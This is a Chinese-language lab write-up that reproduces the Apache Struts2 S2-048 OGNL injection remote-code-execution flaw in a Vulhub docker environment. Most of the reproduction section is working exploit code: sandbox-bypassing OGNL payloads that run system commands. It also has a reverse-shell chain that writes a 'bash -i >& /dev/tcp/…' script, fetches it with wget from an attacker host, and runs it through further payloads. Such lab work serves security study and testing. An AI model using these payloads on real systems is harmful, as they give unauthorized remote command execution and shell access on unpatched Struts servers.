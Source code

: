 # Struts2 S2-048 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- [http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/07/08/S2-048 动态分析/)

## 影响版本

影响版本: 2.0.0 - 2.3.32

## 环境搭建

Vulhub执行以下命令启动s2-048测试环境：

```
docker-compose build
docker-compose up -d
```

环境是直接下载的struts-2.3.32的showcase，部署在tomcat-8.5下。环境启动后，访问`http://your-ip:8080/showcase/`即可查看到struts2的测试页面。

## 漏洞复现

访问Integration/Struts 1 Integration：

![image-20220302112924516](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021129614.png)

触发OGNL表达式的位置是`Gangster Name`这个表单。

输入`${233*233}`即可查看执行结果（剩下两个表单随意填写）：

![image-20220302113012978](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021130080.png)

借用S2-045的沙盒绕过方法改了一个POC。将如下POC填入表单`Gengster Name`中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20220302113039046](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021130143.png)

当然，也可以直接用s2-045的POC（需要在Burp下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ls').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113241603](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021132734.png)

### 反弹shell

使用s2-045的POC进行反弹shell。

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 192.168.174.128/shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113326283](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021133401.png)

执行shell.sh文件的命令为：

```
bash shell.sh
```

执行shell.sh文件的Payload为（还需要进行URL编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

成功接收反弹shell：

![image-20220302113402853](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203021134938.png)